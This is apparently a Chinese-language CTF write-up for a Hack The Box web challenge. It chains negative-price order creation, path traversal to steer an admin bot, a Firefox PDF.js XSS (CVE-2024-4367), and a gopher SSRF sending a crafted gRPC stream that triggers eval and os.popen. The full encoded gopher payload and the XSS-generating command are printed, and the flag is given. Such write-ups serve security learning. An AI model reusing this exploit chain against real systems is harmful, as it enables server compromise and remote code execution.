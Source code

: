 不得不说，这个确实是insane难度的challenge，复杂的一批，还有各种坑

step1：注册并登录
step2：注意到/checkout路由的四个参数可控，并且不提供product_id的时候generate_payment_link会使用你提供的price来创建product，我们让它是负的，后面有用
http://192.168.205.128:1337/checkout?title=aaa&user_id=2&price=-9999&email=aaa
step3：/checkout/success 路由是一个比较重要的路由，它会检查你的order_id中price是否<0(0是代码预先定义好的一个基准price,即amt_paid)
```python
if amt_paid >= order.price:
		db_session.mark_order_complete(order_id)
```

然后如果小于0，启动一个botrunner，它会模拟firefox浏览器发起身份为admin的登录，然后浏览器中会存储admin的session，之后这个bot会访问一个url，这个url是可
被我们控制的
client.get(f"http://127.0.0.1:1337/static/invoices/invoice_{payment_id}.pdf")中paymentid可控，用../可以返回并且访问admin路由用&a=来让'.pdf'成为无意义的请求参数。这个点我们可以用来引导bot访问/admin/view-pdf。注意，这里的访问局限于127.0.0.1:1337,并且通过bot访问是必须的环节，否则不会有合法session

step4：
view-pdf可以访问任意url的pdf，注意，从上一步的浏览器请求到这一步，我们始终在浏览器中，看到
```python
return send_file(pdf_data, mimetype="application/pdf", as_attachment=False, download_name="document.pdf")
```
attachment=false意味着浏览器会直接打开这个pdf，firefox在126版本一下存在一个pdf导致xss的CVE-2024-4367，dockerfile是125，所以可以利用pdf来触发xss，这个xss只有在firefox会被触发，并且必须是bot访问
有一些问题：不能用fetch或者xhr去发送cookie，因为httponly，所以不能以admin登录，另外也不能直接fetch /admin下的路由，因为你会发现firefox viewpdf触发xss的时候document.domain=pdf.js，所以你的fetch会被cors阻止发送cookie，无论你怎么设置fetch的参数。这意味着，我们只能使用form表单的，写个js自动提交到/admin路由，这种情况是会自动发送cookie的，区别于fetch，因此，用pdf触发xss后我们就可以让admin访问以下的路由
```python
@web.route("/admin/api-health", methods=["GET", "POST"])
def api_health():
	if not session.get("loggedin") or session.get("role") != "admin":
		return redirect("/")
		
	if request.method == "GET":
		return render_template("admin_api_health.html", title="Admin panel - API health", session=session)

	url = request.form.get("url")

	if not url:
		return render_template("error.html", title="Error", error="Missing URL"), 400

	status_code = get_url_status_code(url)
	return render_template("admin_api_health.html", title="Admin panel - API health", session=session, status_code=status_code)
```
    为什么是这个路由？因为get_url_status_code(url)中调用了命令行的curl，向我们提供的url参数发起请求，这个是我们ssrf的关键步骤。为什么要绕一步不直接在
view-pdf中让bot访问这个路由？注意，这个路由只接受post方法，要么fetch，要么form，只有xss做得到，其它的路由不存在我们控制bot以admin身份发送post到这个路由的能力。curl支持相当多的协议，其中就有大家都熟悉的gopher，利用gopher我们几乎就做出来这个题了。


    curl支持那么多协议，为什么只用gopher？直接file://行不行？这其实就是回显的问题，确实是可以访问的，但是我们看不到flag。想要在xss那一步用file://然后
outofband也是不行的，会被浏览器阻止访问本地文件。
    话说回来，怎么用gopher打？实际上作者留了后面eval在product_api的api.py中，其中给了 UpdateService和GenerateProduct，思路就是利用UpdateService向
self注入一个price_formula属性，然后触发generateproduct方法，触发eval。
    这里需要了解以下grpc协议，这是一个基于http2的远程方法调用，有点像java的rmi，服务端根据product.proto编译生成了两个文件product_xxxxx.py，这两个文件
同时被放在client，为的就是client能够识别正确的类型信息，并且知道怎么把需要发送的参数和方法序列化到tcp字节流当中。服务端的api.py就是注册了一个提供方法的
服务，client创建stub后利用服务端的方法名和相应的参数去调用相对应的方法。客户端实际上已经育一些路由访问了这些方法，但是，我们的第一步必须是给服务端的product对象添加一个price_formula，然后用generateproduct去eval它。DebugService调用了updateservice，当然，也可以直接调用updateservice，不过这两个方法
都是内部方法，不存在哪个路由可以直接调用的，即使是admin的路由。我们只能通过gopher去调用它，generateproduct可以用之前的方法直接让bot访问/admin/product-stream触发。
    现在，如何构造合适的tcp数据流是关键所在，也是最后一步。并没有支持http2的gopher的现成工具，人工去计算http2的字段是很复杂的，比http1要复杂的多，对我们
没有什么帮助，还极其容易出错。一个比较好的办法是wireshark抓包，然后抓取client http2的数据流，转化为字节数组并且用%编码，或者本地用nc在某个端口监听，去抓取字节发出去的grpc数据报。这里注意，grpc的协议中client发送完整http2数据后，server会返回一个随机的字节流，client要重复发送回去这个字节流才能得到响应，
但是在client发送http2数据后相应方法已经执行。gopher协议我们只能发一次数据，我们不能，但是也不需要获取响应，我们只需要eval执行我们的命令，把flag拷贝到
可读的位置，也就是eval('__import__("os").system("cp /flag* /app/store/application/static/flag.txt")'),就完成了最后一步。生成的数据流被放在gopher后面

这个是不会变的，我已经写好放下面了（建议自己尝试生成）
gopher://_PRI%20%2A%20HTTP%2F2.0%0D%0A%0D%0ASM%0D%0A%0D%0A%00%00%00%04%00%00%00%00%00%00%00%00%04%01%00%00%00%00%00%00Z%01%04%00%00%00%01%83%86E%9Ab%BB%0F%25%A4J%FA%EC%3C%96%91%3B%8Bgs%10%AC_%2Cv%CD%B8%B6w1%0BA%8B%A0%E4%1D%13%9D%09%B8%D8%00%D8%7F_%8B%1Du%D0b%0D%26%3DLMedz%95%9A%CA%C9m%941%DC%2B%BC%B8%94%9A%CA%C8%B4%C7%60%2B%B2%EA%E0%40%02te%86M%835%05%B1%1F%00%00d%00%01%00%00%00%01%00%00%00%00_%0A%5D%0A%0Dprice_formula%12L%0AJ__import__%28%22os%22%29.popen%28%22cp%20%2Fflag%2A%20%2Fapp%2Fstore%2Fapplication%2Fstatic%2Fflag.txt%22%29    

这个peiload应该被放在pdf中的url字段，被作为curl的参数，我在文件夹中也放了生成pdf的py代码和我生成的pdf，这个pdf是不会变的，可以直接用，生成方法：

```powershell
python genpdf.py "var form=document.createElement('form');form.action='http://127.0.0.1:1337/admin/api-health';form.method='post';var urlInput=document.createElement('input');urlInput.value='gopher://127.0.0.1:50051/_PRI%20%2A%20HTTP%2F2.0%0D%0A%0D%0ASM%0D%0A%0D%0A%00%00%00%04%00%00%00%00%00%00%00%00%04%01%00%00%00%00%00%00Z%01%04%00%00%00%01%83%86E%9Ab%BB%0F%25%A4J%FA%EC%3C%96%91%3B%8Bgs%10%AC_%2Cv%CD%B8%B6w1%0BA%8B%A0%E4%1D%13%9D%09%B8%D8%00%D8%7F_%8B%1Du%D0b%0D%26%3DLMedz%95%9A%CA%C9m%941%DC%2B%BC%B8%94%9A%CA%C8%B4%C7%60%2B%B2%EA%E0%40%02te%86M%835%05%B1%1F%00%00d%00%01%00%00%00%01%00%00%00%00_%0A%5D%0A%0Dprice_formula%12L%0AJ__import__%28%22os%22%29.popen%28%22cp%20%2Fflag%2A%20%2Fapp%2Fstore%2Fapplication%2Fstatic%2Fflag.txt%22%29';urlInput.name='url';form.appendChild(urlInput);document.body.appendChild(form);form.submit();"
```

（(tip:some versions of curl dont support null bytes %00）





























flag：HTB{ol4_t4_ch41n5_ol4_t4_ch41n5_l4mp0un_t4_d15m4nd14_4l1_day}
